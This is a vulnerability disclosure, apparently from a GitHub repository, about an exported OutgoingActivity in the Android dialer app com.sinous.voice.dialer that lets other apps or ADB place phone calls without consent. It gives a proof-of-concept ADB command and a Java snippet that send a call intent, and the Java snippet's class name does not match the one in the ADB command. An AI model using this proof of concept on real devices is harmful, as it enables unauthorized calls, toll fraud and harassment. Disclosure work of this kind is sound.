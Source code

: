 
# Vulnerability Report:
Unauthorized Call Initiation in com.sinous.voice.dialer App

## Summary
A  security vulnerability was identified in the `com.sinous.voice.dialer` Android application, version 1.2.5. The vulnerability allows for unauthorized initiation of phone calls from external sources without user interaction or consent.

## Details
https://play.google.com/store/apps/details?id=com.sinous.voice.dialer
### Affected Application
- **Name**: com.sinous.voice.dialer [https://play.google.com/store/apps/details?id=com.sinous.voice.dialer]
- **Version**: 1.2.5
- **Permissions Required**: None

### Description
The vulnerability resides in the exported `OutgoingActivity` component of the application. This activity is improperly exposed to external intent calls, enabling any application or ADB command to trigger phone calls directly.

### Impact
- **Unauthorized Calls**: Malicious entities can exploit this vulnerability to make unauthorized calls, which could lead to financial losses or privacy breaches.
- **User Consent Bypass**: The application fails to obtain explicit user consent before initiating calls, violating Android's privacy and security principles.
- **Potential Abuse**: There is a high risk of exploitation for harmful purposes, including spam calls or harassment.

### Proof of Concept
The following ADB command demonstrates the vulnerability:

```sh
adb shell am start -a android.intent.action.CALL -d tel:7168444444 -n com.sinous.voice.dialer/com.funprime.calldialer.ui.activities.OutgoingActivity
```
OR

```
   private void initiateCall() {
        Intent callIntent = new Intent(Intent.ACTION_CALL);
        callIntent.setData(Uri.parse("tel:1234567890")); // Replace with the number you want to call
        callIntent.setClassName("com.sinous.voice.dialer", 
                                "com.sinous.voice.dialer.OutgoingActivity");
        startActivity(callIntent);
    }
```
Executing this command initiates a phone call to the specified number without user interaction.

![ezgif com-video-to-gif](https://github.com/actuator/com.sinous.voice.dialer/assets/78701239/32f93509-9a20-4df6-ad8a-e5e4fcb02c94)

### Steps to Reproduce
1. Connect an Android device with USB debugging enabled.
2. Run the above ADB command.
3. Observe that a phone call is initiated without any user interaction.

### Recommendations
- **Restrict Activity Export**: Modify the app's manifest to ensure `OutgoingActivity` is not exported, or strictly filter incoming intents.
- **Implement User Consent**: Ensure that any action leading to a phone call requires explicit user consent.
- **Conduct Security Audit**: Review the application to identify and fix similar vulnerabilities.


---

